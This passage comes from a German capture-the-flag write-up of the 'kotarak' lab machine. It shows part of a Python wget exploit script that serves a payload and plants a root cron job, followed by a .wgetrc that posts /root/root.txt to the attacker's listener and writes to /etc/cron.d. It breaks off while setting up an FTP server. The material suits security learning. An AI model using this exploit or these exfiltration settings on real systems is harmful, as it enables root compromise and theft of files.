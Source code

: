 ```shell
       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '192.168.57.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '192.168.57.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()

--[ eof ]---
```

Befolgen wir die Anleitung, anstatt **/etc/shadow** wollen wir allerdings **/root/root.txt** erhalten!

```shell
root@kali:~/kotarak# mkdir ftptest
root@kali:~/kotarak# cd ftptest/
root@kali:~/kotarak/ftptest# cat <<_EOF_>.wgetrc
> post_file = /root/root.txt
> output_document = /etc/cron.d/wget-root-shell
> _EOF_
root@kali:~/kotarak/ftptest# cat .wgetrc 
post_file = /root/root.txt
ouput_document = /etc/cron.d/wget-root-shell
```

Nun **pyftpdlib** installieren, falls noch nicht vorhanden

```shell
root@kali:~/kotarak/ftptest# sudo pip install pyftpdlib
Reuirement already satisfied: pyftpdlib in /usr/local/lib/python2.7/dist-packages
```

pyftpdlib ausführen:
